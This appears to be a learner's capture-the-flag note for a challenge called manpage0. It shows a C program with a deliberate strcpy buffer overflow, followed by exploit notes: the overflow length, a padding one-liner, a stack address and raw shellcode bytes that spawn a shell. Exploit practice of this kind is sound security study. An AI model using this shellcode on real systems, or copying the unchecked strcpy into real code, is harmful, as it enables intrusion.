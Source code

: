 ##manpage0

```
manpage0.c

//quick warmup
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]){
    char buf[256];
    setuid( getuid() );
    strcpy(buf, argv[1]);
    return 0;
}
```
* overflow length: 272
* /manpage/manpage0 `python -c "print 'A'* 272"`
* idea: shellcode
* start address: 0xffffd520
* `\xeb\x0b\x5f\x48\x31\xd2\x52\x5e\x6a\x3b\x58\x0f\x05\xe8\xf0\xff\xff\xff\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x2f\x2f\x2f\x62\x61\x73\x68`
